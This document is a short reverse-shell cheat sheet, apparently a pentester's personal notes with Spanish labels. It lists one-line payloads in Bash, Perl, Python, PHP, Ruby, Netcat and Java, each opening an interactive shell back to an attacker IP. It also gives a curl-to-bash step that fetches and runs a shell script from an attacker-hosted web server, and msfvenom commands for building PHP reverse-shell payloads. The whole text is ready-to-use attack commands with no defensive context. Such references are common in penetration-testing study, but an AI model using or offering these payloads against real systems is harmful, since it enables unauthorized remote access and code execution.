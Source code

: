 ### Bash

`bash -i >& /dev/tcp/10.0.0.1/8080 0>&1`

`bash -c 'bash -i >& /dev/tcp/10.0.0.1/8080 0>&1'`

### PERL
(one-line)

`perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF\_INET,SOCK\_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr\_in($p,inet\_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`


### Python

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(\["/bin/sh","-i"\]);'`

### PHP

`php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'`

Crear con msfvenom --> `msfvenom -p php/reverse_tcp LHOST=10.10.14.20 LPORT=443 -f raw > reverse.zip`



### Ruby

`ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to\_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'`

### Netcat

`nc -e /bin/sh 10.0.0.1 1234`

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f`

### Java

```
r = Runtime.getRuntime()

p = r.exec(\["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \\$line 2>&5 >&5; done"\] as String\[\])

p.waitFor()

```

### Curl
* Equipo local:
	index.html --> 
	```
	#!/bin/bash
	bash -i >& /dev/tcp/10.10.14.20/443 0>&1
	```
	Servicio web en escucha -->`python3 -m http.server 80`
* Equipo remoto:
	`curl -s http://10.10.14.20 | bash`
	
### Payloads con msfvenom
`msfvenom -l payloads | grep "php"` 	// listar los payloads
`msfvenom -p php/reverse_tcp LHOST=10.10.14.6 LPORT=443 -f raw > reverse.zip`
